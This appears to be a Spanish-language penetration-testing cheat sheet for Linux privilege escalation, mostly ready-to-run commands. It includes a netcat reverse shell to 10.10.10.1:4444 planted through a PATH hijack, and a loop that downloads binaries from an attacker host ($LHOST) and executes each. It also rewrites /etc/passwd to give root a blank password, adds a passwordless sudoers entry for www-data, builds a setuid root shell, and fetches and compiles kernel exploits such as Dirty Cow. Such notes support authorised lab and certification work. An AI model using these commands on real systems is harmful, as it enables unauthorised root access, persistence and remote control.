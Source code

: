# Elevacion de privilegios

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
Permisos de W    -->  find / -writable -type d 2>/dev/null
Permisos de W    -->  find / -perm -222 -type d 2>/dev/null
Permisos de W    -->  find / -perm -o w -type d 2>/dev/null    
Permisos de X    -->  find / -perm -o x -type d 2>/dev/null
Permisos de W+X  -->  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
Permisos de R    -->  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

17) Compartir carpeta RDP --> `rdesktop -u <USUARIO> -p <CONTRASEÑA> <IP> -g $(xrandr -q | awk '/ connected / {print $4;exit}' | awk -F "x" '{print int($1/1.05)"x"int($2/1.1)}')`


## Compilacion

18) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

19) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

20) __Exploits precompilados para Linux__ https://github.com/lucyoa/kernel-exploits  `git clone https://github.com/lucyoa/kernel-exploits.git` 

21) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

22) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

23) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

24) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

25) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

26) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

27) __CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)__ 
<pre>
wget -O 14814.c http://www.exploit-db.com/download/14814
gcc 14814.c -o can
</pre>

28) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`
